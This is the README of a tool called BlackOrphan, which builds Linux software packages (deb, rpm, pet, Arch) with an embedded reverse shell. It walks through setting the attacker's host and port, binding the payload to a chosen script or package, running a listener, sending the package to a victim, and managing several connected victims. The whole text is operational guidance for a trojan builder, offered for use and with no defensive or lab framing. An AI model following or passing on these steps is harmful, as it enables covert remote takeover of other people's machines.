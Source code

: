 # BlackOrphan
BlackOrphan is a tool built with Bash/nodejs mainly for gaining a remote shell access to a linux BoX

# USAGE

clone this repo

run blackorphan from the command line

```bash
./BlackOrphan1.0
==============================
1. Create a server
2. Start a Listerner
3. About
q. Exit
==============================
```

choosing 1 allows you to create a package with the reverse shell listener script embeded in the package

```bash
Select the target Operating System
===================================
1. Debian base linux system
2. Rpm base Linux system
3. Puppy Linux (.pet)
4. Arch Linux 
r. Run
b. Go back to previous menu
q. Exit
==============================
```
choosing any of the option apart from b,r and q allows you to choose the kind of package you want to create

it is adivisable to create a package ( maybe a deb package ) and use alient to convert it to support other platforms

```bash
BlackOrphan:create_server:debian_base> 
```
at that prompt you have to set the ip and port of the attacker with this command. This will be used for the reverse connection

```bash
	set lhost_lport ip_address port
```

```bash
	BlackOrphan:create_server> 
```
hit the r key here to start creating hte package

```bash
Create a new debian package for the Malware?[y|n]:
```

hit y to create a new package or hit n to specify a package that the malware will be embeded into

```bash
Specify script to bind with: 
```
specify the absolute path to the  script to bind with , supported scripts are ( py,pl and sh )

hit Ctrl + C to close blackorphan

start listener.js with the port number to use for the connection

```javascript

./listener.js 4444

```
you can now send the package to the victim, when the victim installs the package and run the script you will be able to remotely access the victims box

the commands supported by listener.js for now are

1. killclient 

2. list

3. switch

**killclient**

killclient temporary stops you from accessing the victims box, it takes an id , which is just a number

for example

killclient 1  >> kills a client with the id of 1

**list**

lists all the currently connected victims

**switch**

it switches or changes the socket object to point to another victim. It takes a single option which is the id of the victim

for example

switch 3 >> changes to the client with an id of 3


Regular updates will be added to BlackOrphan every 2 weeks
